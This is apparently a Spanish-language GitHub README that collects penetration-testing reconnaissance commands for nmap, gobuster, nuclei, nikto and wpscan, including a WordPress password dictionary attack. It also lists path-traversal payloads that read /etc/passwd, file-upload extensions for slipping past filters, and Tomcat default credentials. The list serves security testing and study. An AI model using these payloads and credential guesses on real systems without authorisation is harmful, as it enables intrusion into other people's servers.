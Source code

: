 # Recon-Wi
Mi repositorio sobre herramientas y configuraciones para la fase de reconocimiento de vulnerabilidades.


# Herramientas de escaneo
## Nmap
```shell
- nmap -sn <ip/24>
- nmap -sV -sT -O -p- <ip>
- nmap -sTCV <ip>
- nmap --script vuln <ip>
- nmap -f -sS -sV -Pn --script auth <ip>
- nmap -f -sS -sV -Pn --script default <ip>
```
#### Puertos UDP
```shell
- nmap -sU -sC --top-ports 100 <ip>
```
## Gobuster
```shell
- gobuster dir -u <url> -w /home/kali/Downloads/seclist/directory-list-lowercase-2.3-medium.txt -x php,html,txt
```
#### Realizar fuzzing
```shell
- gobuster fuzz -u https://example.com?FUZZ=test -w parameter-names.txt
```
## Nuclei
#### Escaneo de un solo objetivo
```shell
- nuclei -target https://example.com
```
#### Escaneo de varios objetivos
```shell
- nuclei -targets urls.txt
```
#### Network scan
```shell
- nuclei -target <ip>/24 
```
# Nikto
```shell
- nikto -h example.com
- nikto -h example.com -port 8083
- nikto -h example.com -maxtime number.of.seconds
```
# Wpscan
```shell
- wpscan --url <url>
```
### Ataque de diccionario
```shell
- - wpscan --url <url> --passwords <ruta de diccionarios>
```
### Enumerar usuarios
```shell
- wpscan --url <url> --enumerate u 
```

# Path Traversal 
```shell
- file=../../../../../../../etc/passwd
- file=/etc/passwd
- file=....//....//....//etc/passwd
- file=..%252f..%252f..%252fetc/passwd
- file=/var/www/images/../../../etc/passwd
- file=../../../etc/passwd%00.png 
```

# Upload extensions

```shell
- PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
- Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
- ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- Coldfusion: .cfm, .cfml, .cfc, .dbm
- Flash: .swf
- Perl: .pl, .cgi
- Erlang Yaws Web Server: .yaws
```
# Tomcat default credentials

```shell
admin:admin

tomcat:tomcat

admin:

admin:s3cr3t

tomcat:s3cr3t

admin:tomcat
```
